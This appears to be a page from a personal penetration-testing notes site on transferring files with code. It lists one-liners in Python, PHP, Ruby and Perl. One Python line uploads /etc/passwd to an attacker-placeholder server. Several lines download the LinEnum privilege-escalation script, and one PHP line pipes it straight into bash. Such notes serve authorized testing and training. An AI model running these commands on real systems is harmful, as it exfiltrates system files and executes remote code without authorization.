

repository: amandaguglieri/hackinglife · page: transferring-files-techniques-code/index.html · generator: mkdocs

---
title: Transferring files with code
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - exploitation
  - file transfer technique
  - backdoors
---
# Transferring files with code

## Upload operations

### Python3

[uploadserver](uploadserver.md)

```python
# Start the Python uploadserver Module
python3 -m uploadserver 

# Uploading a File Using a Python One-liner
python3 -c 'import requests;requests.post("http://$ipAttacker:8000/upload",files={"files":open("/etc/passwd","rb")})'
```


## Download operations

### Python

#### python2 Download

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```



### PHP

#### PHP Download with File_get_contents() and  file_put_contents ()

```php
# PHP file_get_contents() module to download content from a website combined with the file_put_contents() module to save the file into a directory. PHP can be used to run one-liners from an operating system command line using the option -r.
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### PHP Download with Fopen()

```php
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP Download a File and Pipe it to Bash

```php
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
# The URL can be used as a filename with the @file function if the fopen wrappers have been enabled. 
```


### Ruby

**Download a File:**

```ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```


### Perl

**Download a File:**

```perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
